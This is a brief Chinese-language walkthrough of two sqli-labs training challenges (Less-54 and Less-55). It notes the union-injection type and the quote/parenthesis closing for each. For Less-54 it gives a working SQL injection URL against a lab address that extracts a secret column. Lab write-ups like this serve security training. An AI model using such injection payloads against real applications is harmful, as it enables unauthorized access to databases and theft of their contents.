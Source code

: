 ### Less-54：GET - challenge - Union- 10 queries allowed - variation l

**注入类型**

联合注入

**闭合方式**

id='\$id'

> challenge 题目未注入加入了次数限制，在尝试一定次数（这题为10次）后，数据库中的表名和字段都会发生改变

```sql
http://192.168.80.132/sqli-labs/Less-54/?id=-1'  
union select 1,(select secret_5ANF from 23i0nc1py0 limit 0,1),3--+
```

![](file/image_v_GmK7rvY6.png)

### Less-55：GET - challenge - Union- l4 queries allowed - Variation 2

**注入类型**

联合注入

**闭合方式**

id=(\$id)

![](file/image_6PHJGuSl0x.png)